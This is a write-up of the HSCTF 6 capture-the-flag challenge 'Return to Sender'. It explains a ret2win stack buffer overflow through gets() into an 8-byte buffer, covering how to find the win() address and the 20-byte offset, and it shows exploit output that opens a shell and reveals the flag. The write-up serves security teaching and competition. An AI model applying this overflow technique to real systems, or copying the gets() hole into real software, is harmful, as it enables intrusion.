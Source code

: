 # Return to Sender

| Event | Title | Category | Cost |
|:------|:----------|:---------|-------:|
| HSCTF 6 | Return to Sender| Binary Exploitation | ~200 |

### Discription
>Written by: Ptomerty
>
>Who knew the USPS could lose a letter so many times?
>
>nc pwn.hsctf.com 1234
>
>Note: If you're trying to use python or a similar program to run your exploit, make sure to keep stdin alive with cat, like this: (python; cat -) | nc pwn.hsctf.com <port>

### Information
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

### Solution

Simple buffer overflow with return address rewriting.

We should run this function

```c
void win() {
    system("/bin/sh");
}
```

From this `gets()` function

```c
void vuln() {
     char dest[8];
     printf("Where are you sending your mail to today? ");
     gets(dest);
     printf("Alright, to %s it goes!\n", dest);
 }
```

Let`s find out Win address

```sh
$ objdump -t return-to-sender | grep win
080491b6 g     F .text	0000002b              win

```

And padding before return address

```sh
$ pattern.py 50
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
```

Check $rip value before ret
`0x804922f <vuln+78>    ret    <0x37614136>`

```sh
$ pattern.py 0x37614136
Pattern 0x37614136 first occurrence at position 20 in pattern.
```

It`s enough to wtite an [exploit](https://github.com/Red-Cadets/HSCTF-6/blob/master/Binary%20Exploitation/Return%20to%20Sender/exp.py).

After we can run it and get the flag.

```sh
$ ./exp.py 
[+] Opening connection to pwn.hsctf.com on port 1234: Done
[*] Switching to interactive mode
Alright, to aaaaaaaaaaaaaaaaaaaa\xb6\x91\x0 it goes!
# cat flag
hsctf{fedex_dont_fail_me_now}
```

##### Flag

```
hsctf{fedex_dont_fail_me_now}
```
